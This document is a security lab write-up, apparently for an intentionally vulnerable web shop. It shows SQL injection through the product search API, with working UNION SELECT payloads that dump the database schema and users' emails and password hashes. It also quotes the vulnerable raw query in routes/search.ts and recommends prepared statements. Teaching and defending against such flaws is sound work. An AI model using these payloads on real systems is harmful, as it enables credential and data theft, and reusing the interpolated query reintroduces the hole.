


# SQL Injection - Search API
## How To (Vulnerable Website)
1. Go to vulnerable website

2. Update the path in the location bar from `{websiteURL}/#/search` to
   `{websiteURL}/rest/products/search?q=')) UNION SELECT sql, '2', '3', '4', '5', '6', '7', '8', '9' FROM sqlite_master--`

3. Verify that it returns the entire DB schema and data in the browser



4. Update the path in the location bar to 
`{websiteURL}/rest/products/search?q=')) union select id,'2','3',email,password,'6','7','8','9' from users--`

5. The data returned in the browser includes the users id as the value of `price` and their hashed passwords as value of `deluxePrice`



## How To (Secured Website)
1. Go to secured website

2. Update the path in the location bar from `{websiteURL}/#/search` to
   `{websiteURL}/rest/products/search?q=')) UNION SELECT sql, '2', '3', '4', '5', '6', '7', '8', '9' FROM sqlite_master--`

3. It does not return any data


4. Update the path in the location bar to
   `{websiteURL}/rest/products/search?q=')) union select id,'2','3',email,password,'6','7','8','9' from users--`

5. It does not return any data


## Root cause
The root cause of the issue is that raw SQL was being used in the search api (routes/search.ts)
```
`SELECT * FROM Products WHERE ((name LIKE '%${criteria}%' OR description LIKE '%${criteria}%') 
AND deletedAt IS NULL) ORDER BY name`)
```

## Mitigations
**Use of Prepared Statements:** Use prepared statements with parameterized queries to prevent SQL injection.
This technique is where the database pre-compiles SQL code and stores the results, separating it from data.


Authored by: Elizabeth Mayer
